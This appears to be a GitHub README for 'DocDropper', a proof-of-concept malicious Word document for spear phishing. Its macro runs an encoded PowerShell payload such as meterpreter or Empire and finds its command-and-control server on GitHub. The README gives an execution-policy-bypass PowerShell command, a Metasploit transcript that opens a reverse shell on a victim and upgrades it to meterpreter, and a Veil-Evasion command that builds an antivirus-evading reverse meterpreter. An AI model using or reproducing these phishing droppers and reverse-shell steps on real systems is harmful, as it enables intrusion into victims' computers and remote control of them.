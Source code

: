 # DocDropper
## Reboot Spear Phishing

DocDropper is a Proof Of Concept of a DOC file who run a payload like a meterpreter, empire, etc.
Indeed, DocDropper use a PowerShell Dynamic Generation Algorithm to find his C&C hosted on Github.com.

Begin by `./dropper/vector.payload.ps1` : This is the encoded payload in the active Macro.

## Miscellaneous

#### Debug mode

```
powershell.exe -ExecutionPolicy Bypass -encodedCommand ([Convert]::ToBase64String(([System.Text.Encoding]::Unicode.GetBytes((Get-Content ./vector.payload.ps1)))))
```

#### Cmd.exe to Meterpreter

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.0.21
LHOST => 192.168.0.21
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.0.21:4444 
[*] Starting the payload handler...
msf exploit(handler) > [*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.0.19
[*] Command shell session 1 opened (192.168.0.21:4444 -> 192.168.0.19:59134) at 2015-10-29 22:35:53 +0100

msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type           Information  Connection
  --  ----           -----------  ----------
  1   shell windows               192.168.0.21:4444 -> 192.168.0.19:59134 (192.168.0.19)

msf exploit(handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse handler on 192.168.0.21:4433 
[*] Starting the payload handler...
[-] Powershell is not installed on the target.
[*] Command stager progress: 1.66% (1699/102108 bytes)
[*] Command stager progress: 3.33% (3398/102108 bytes)
[...]
[*] Command stager progress: 99.78% (101888/102108 bytes)
[*] Command stager progress: 100.00% (102108/102108 bytes)
```

#### Veil-Evasion Meterpreter

```
veil-evasion -p c/meterpreter/rev_tcp -c LHOST=192.168.0.21 LPORT=4444
```
